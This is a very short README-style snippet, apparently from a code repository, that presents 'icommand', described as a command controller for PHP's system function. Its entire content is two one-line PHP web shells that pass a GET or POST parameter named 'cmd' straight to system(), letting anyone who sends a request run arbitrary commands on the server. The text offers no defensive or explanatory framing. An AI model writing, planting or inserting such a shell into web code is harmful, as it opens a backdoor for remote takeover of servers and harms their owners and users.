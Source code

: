 ### icommand - command controller for PHP system function
- - -   
<p>icommand works for **POST** and **GET** requests:  
        `<?php system($_GET['cmd']); ?>`  
        `<?php system($_POST['cmd']); ?>`
